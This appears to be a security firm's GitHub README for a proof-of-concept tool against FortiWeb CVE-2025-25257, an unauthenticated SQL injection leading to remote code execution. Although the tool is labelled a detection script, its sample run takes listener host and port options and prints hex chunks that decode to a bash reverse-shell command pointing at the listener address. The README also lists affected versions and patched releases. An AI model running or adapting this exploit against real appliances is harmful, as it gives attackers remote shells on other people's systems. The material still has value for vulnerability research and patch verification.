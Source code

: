 # watchTowr-vs-FortiWeb-CVE-2025-25257

Detection Artifact Generator for FortiWeb CVE-2025-25257


See our [blog post](https://labs.watchtowr.com/) for technical details



https://github.com/user-attachments/assets/e59f2b3b-2b9b-469f-b4a8-2b7df2ede194



# Detection in Action

```
python watchTowr-vs-FortiWeb-CVE-2025-25257.py --target https://192.168.8.30/ --lhost 192.168.8.148 --lport 1350
                         __         ___  ___________
         __  _  ______ _/  |__ ____ |  |_\__    ____\____  _  ________
         \ \/ \/ \__  \    ___/ ___\|  |  \|    | /  _ \ \/ \/ \_  __ \
          \     / / __ \|  | \  \___|   Y  |    |(  <_> \     / |  | \/
           \/\_/ (____  |__|  \___  |___|__|__  | \__  / \/\_/  |__|
                                  \/          \/     \/

        watchTowr-vs-FortiWeb-CVE-2025-25257.py

        (*) FortiWeb Unauthenticated SQLi to Remote Code Execution Detection Artifact Generator

          - Sina Kheirkhah (@SinSinology) of watchTowr (@watchTowrcyber)

        CVEs: [CVE-2025-25257]

[*] sprayed chunk #1/17:        '696d706f72'
[*] sprayed chunk #2/17:        '74206f733b'
[*] sprayed chunk #3/17:        '206f732e73'
[*] sprayed chunk #4/17:        '797374656d'
[*] sprayed chunk #5/17:        '2827626173'
[*] sprayed chunk #6/17:        '68202d6320'
[*] sprayed chunk #7/17:        '222f62696e'
[*] sprayed chunk #8/17:        '2f62617368'
[*] sprayed chunk #9/17:        '202d69203e'
[*] sprayed chunk #10/17:       '26202f6465'
[*] sprayed chunk #11/17:       '762f746370'
[*] sprayed chunk #12/17:       '2f3139322e'
[*] sprayed chunk #13/17:       '3136382e38'
[*] sprayed chunk #14/17:       '2e3134382f'
[*] sprayed chunk #15/17:       '3133353020'
[*] sprayed chunk #16/17:       '303e263122'
[*] sprayed chunk #17/17:       '2729'

[*] Pop thy shell!

```

# Description

This script attempts to detect if FortiWeb is vulnerable to CVE-2025-25257

# Affected Versions

The following versions of FortiWeb are Affected

| Version      | Affected             | Solution                   |
| ------------ | -------------------- | -------------------------- |
| FortiWeb 7.6 | 7.6.0 through 7.6.3  | Upgrade to 7.6.4 or above  |
| FortiWeb 7.4 | 7.4.0 through 7.4.7  | Upgrade to 7.4.8 or above  |
| FortiWeb 7.2 | 7.2.0 through 7.2.10 | Upgrade to 7.2.11 or above |
| FortiWeb 7.0 | 7.0.0 through 7.0.10 | Upgrade to 7.0.11 or above |

For more information visit [FortiGuard Labs PSIRT](https://fortiguard.fortinet.com/psirt/FG-IR-25-151)


# Follow [watchTowr](https://watchTowr.com) Labs

For the latest security research follow the [watchTowr](https://watchTowr.com) Labs Team

- https://labs.watchtowr.com/
- https://x.com/watchtowrcyber
